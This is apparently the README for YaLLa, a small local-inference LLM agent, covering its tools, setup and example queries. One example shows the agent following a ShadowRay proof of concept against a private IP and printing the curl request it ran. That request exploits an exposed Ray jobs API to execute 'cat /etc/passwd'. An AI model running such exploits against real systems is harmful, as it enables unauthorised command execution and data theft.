 # Yet Another LLM Agent (YaLLa)
A tiny LLM Agent with minimal dependencies, focused on local inference.

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Tools](#tools)
- [Uses OpenAI API specification](#uses-openai-api-specification)
- [Get Started](#get-started)
- [Run the agent completely on device with Ollama](#run-the-agent-completely-on-device-with-ollama)
- [Run the agent using ChatGPT and OpenAI](#run-the-agent-using-chatgpt-and-openai)
- [Examples](#examples)
- [Execution logs and history](#execution-logs-and-history)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Tools

1. **ubuntu_terminal:** Runs bash commands inside Ubuntu temporary container via `docker`.
2. **web_browser:** Accesses websites or search free text, to retrieve the inner text content and links. Uses `selenium` by default. can also use Jina AI's free browsing APIs.
3. **llm_query:** Communicate with the large language model.
4. **create_text_file:** Creates a text file inside the container.
5. **open_api:** Interacts with an OpenAPI service to fetch data or perform operations.

## Uses OpenAI API specification
- Local
  - <a href="https://ollama.com/">Ollama</a>
  - <a href="https://github.com/ggerganov/llama.cpp/server">llama.cpp</a>
- OpenAI
  - ```shell
    export OPENAI_API_KEY="sk-..."
    ```

## Get Started
**Clone:**
```shell
git clone https://github.com/avilum/yalla.git && cd yalla
```
**Install:**
```shell
python3 -m pip install -r requirements.txt
```
**Run:**
```shell
# helper function
function agent(){
  python3.11 agent.py $*
}

agent --help
```

## Run the agent completely on device with Ollama
1. Run ollama
```shell
ollama pull gemma2 && ollama serve
```
2. Run the agent with `--local`
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump?"
agent --local --planner gemma2 --executor phi3 --query "Who acquired Deci AI"
agent --local --verbose --query "Create a fastapi app and run it in on port 8082." --steps 7
agent --query 'open_api: {"url": "https://api.example.com/data", "method": "GET"}'
```
## Run the agent using ChatGPT and OpenAI
1. Set the OpenAI API Key:
```shell
export OPENAI_API_KEY="sk-..."
```
2. Run the agent
```shell
agent --query "Who acquired Deci AI"
agent --planner gpt-4o --executor gpt-3.5-turbo --verbose --query "What are the top trending models on huggingface from last week?"
```
## Examples
Input:
```shell
agent --local --planner="gemma2:27b" --executor="gemma2" --query "What is the latest blog post by brendan gregg"
```
Output:
```text
The latest blog post by Brendan Gregg is titled "No More Blue Fridays" and was published on July 22, 2024.
You can find it at: /blog/2024-07-22/no-more-blue-fridays.html
```
---
#### Run ShadowRay on a given IP address based on a GIST example payload
Input:
```shell
agent --query "Follow the POC at https://gist.githubusercontent.com/avioligo/edde6aed604b4ec077a3505dfaa6f384/raw/2c6dcbfe2ee87aa21efa5db83c99b688689ef6e1/gistfile1.txt and run the example on IP 192.168.2.168 on port 8265 and return the Job ID and the command that was run "
```
Output:
```text
The command that was run is:

curl -X POST http://192.168.2.168:8265/api/jobs/ -H 'Content-Type: application/json' -d '{"entrypoint": "cat /etc/passwd", "runtime_env": {}, "job_id": null, "metadata": {"job_submission_id": "1"}}'

The Job ID returned is: **raysubmit_FdzLfdynrzsGgj64**.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "Who acquired Deci AI?"
```
Output:
```text
Nvidia acquired Deci AI for $300 million.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump"
```
Output:
```text
Based on the provided information from CNN and The New York Times, former President Donald Trump was involved in a shooting at a rally in Butler, Pennsylvania on July 13, 2024.

He was reportedly rushed off stage with blood on his ear and face. While the Secret Service confirmed he is safe, details about the incident and the shooter are still emerging.

It's important to note that information about this event is rapidly developing and may change. To get the most up-to-date information, it's best to refer to reliable news sources.
```
---
Input:
```shell
agent --local --planner="gemma2" --executor="gemma2" --query "Tell me about Avi Lumelsky from Oligo and about his researches"
```
Output:
```text
Avi Lumelsky is a security researcher at Oligo.

He is actively involved in researching and raising awareness about vulnerabilities in popular AI frameworks, particularly the Ray AI framework.  His work has been featured in prominent tech publications like TechTarget, Security Boulevard, The Register, and VentureBeat.

Lumelsky's research has highlighted critical vulnerabilities that can be exploited to gain control of AI workloads, compute resources, and sensitive data. He is a recognized speaker at cybersecurity conferences like BSidesBUD, where he shares his findings and insights with the broader security community.


You can find more information about Avi Lumelsky and his work on his LinkedIn profile and in the articles listed in the provided context.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What are the trending models on huggingface right now?"
```
Output:
```text
Here are some of the trending models on HuggingFace right now, across various categories like text generation, image generation, and question answering:

* **Text Generation:**
    * Qwen2-72B-Instruct
    * Mixtral-8x7B-Instruct-v0.1
    * Gemma-2-9b-it
    * Gemma-2-27b-it
* **Image Generation:**
    * Stable Diffusion XL-Base 1.0
    * Kolors
    * AuraFlow
    * Stable Diffusion 3-Medium
* **Other:**
    * Microsoft's Florence-2-large (Image-Text-to-Text)
    * OpenAI's Whisper-large-v3 (Automatic Speech Recognition)

Keep in mind that trends change rapidly!  You can explore the full list and sort by popularity on the HuggingFace website.
```
---
## Execution logs and history
By default all the runs will be logged to the `.runs/` directory.<br>

More examples can be found at the <a href="examples/">/examples</a> folder.
